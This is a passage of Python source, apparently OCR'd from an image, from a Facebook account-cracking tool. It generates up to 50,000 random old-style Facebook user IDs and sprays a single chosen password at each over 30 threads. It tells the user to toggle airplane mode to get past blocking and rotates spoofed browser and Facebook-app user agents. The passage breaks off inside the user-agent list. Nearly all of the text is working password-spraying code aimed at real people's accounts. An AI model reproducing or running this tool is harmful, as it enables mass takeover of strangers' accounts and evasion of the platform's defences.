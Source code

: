 	def old(self):
		x = 111111111
		xx = 999999999
		idx = "100000" 
		os.system('clear');print(logo)
		limit = int(input(" \n\033[0;95m[+]\033[0;93m TOTAL IDS TO CRACK LIMIT 50000: "))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n\033[1;32m [!] Ex(123456) FOR Old IDZ\033[1;37m ")
				listpass = input("%s [?] ENTER PASSWORD :%s "%(G,Y))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(B))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(G,listpass))
				os.system("clear")
				print(logo)
				print("     \033[0;93m   FREE MODE ACTIVATE")
				print("\n\033[0;94m [+] BRUTE HAS BEEN START")
				print(" \033[0;96m[+] Note: 0k Open 70% JUST NOW")
				print(" [!] IF NO RESULT USE AIRPLANE MODE 5 SECONDS")
				print("\033[0;94m----------------------------------------------")
				print("\n")
				print("\033[0;97m")
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n \033[0;95m>>[PROCESS COMPLETE... \n\033[0;92m >>[Thanks for using my tool...")
		except Exception as e:exit(str(e))
 
	def api(self, uid, pwx):
		rua = random.choice([
		"Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z007;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]",
			  "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)",
  "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
  "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; CMDTDF; .NET4.0C; .NET4.0E; GWX:QUALIFIED)",
  "Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:40.0) Gecko/20100101 Firefox/40.0.2 Waterfox/40.0.2",
  "Mozilla/5.0 (Linux; Android 5.0; SAMSUNG SM-N900T Build/LRX21V) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/2.1 Chrome/34.0.1847.76 Mobile Safari/537.36",
  "Mozilla/5.0 (Linux; Android 4.4.2; SM-T217S Build/KOT49H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.84 Safari/537.36",
  "Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; MALNJS; rv:11.0) like Gecko",
  "Mozilla/5.0 (Linux; Android 4.4.2; RCT6203W46 Build/KOT49H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.84 Safari/537.36",
  "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
  "Mozilla/5.0 (Android; Tablet; rv:34.0) Gecko/34.0 Firefox/34.0",
  "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/6.0; Touch)",
  "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/7.0; TNJB; 1ButtonTaskbar)",
  "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0)",
  "Mozilla/5.0 (Linux; Android 4.0.4; BNTV400 Build/IMM76L) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.111 Safari/537.36",
  "Mozilla/5.0 (Linux; Android 4.0.4; BNTV600 Build/IMM76L) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.111 Safari/537.36",